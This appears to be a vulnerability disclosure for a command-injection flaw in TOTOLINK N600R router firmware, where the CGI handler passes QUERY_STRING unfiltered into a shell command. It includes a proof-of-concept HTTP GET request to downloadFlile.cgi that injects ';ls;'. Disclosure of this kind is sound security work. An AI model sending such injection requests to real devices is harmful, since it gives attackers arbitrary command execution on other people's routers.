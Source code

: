 # TOTOLINK N600R V5.3c.5507_B20171031 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as N600R V5.3c.5507_B20171031
- **Firmware download address:**https://www.totolink.net/data/upload/20200728/f984576c47289d782ed65e67edbf06e2.zip



## Description

### 1.Product Information:

TOTOLINK N600R V5.3c.5507_B20171031 router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](image/1.png)



### 2. Vulnerability details

TOTOLINK N600R V5.3c.5507_B20171031 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](image/2.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `;ps;` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?;ls; HTTP/1.1 
Host: 192.168.0.1 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](image/3.png)
